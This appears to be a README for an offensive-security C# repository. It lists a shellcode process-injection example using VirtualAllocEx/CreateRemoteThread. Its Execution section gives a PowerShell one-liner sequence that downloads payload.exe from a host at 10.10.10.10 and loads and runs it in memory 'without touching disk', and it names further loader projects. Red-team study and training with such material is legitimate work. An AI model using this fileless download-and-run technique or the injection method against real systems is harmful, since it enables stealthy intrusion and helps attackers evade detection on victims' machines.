 <p align="center">
  <img src="../_resources/img/0002.png">
</p>

# OffsecDev: C#

### Table of Contents
  * [Examples](#examples)
  * [Execution](#execution)

## Examples
| File                                       | Description |
|--------------------------------------------| ----------- |
| [classic_injection.cs](src/classic_injection.cs) | Inject shellcode into a remote process using ```VirtualAllocEx```/```CreateRemoteThread```. |

## Execution
* Use the PowerShell code below to Load .Net assemblies without touching disk:
```
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/payload.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[TotallyNotMal.Program]::Main()
```

* Alternatively, projects such as [EAPrimer](https://github.com/m8r0wn/EAPrimer) and [NetLoader](https://github.com/Flangvik/NetLoader) can be used as well. 

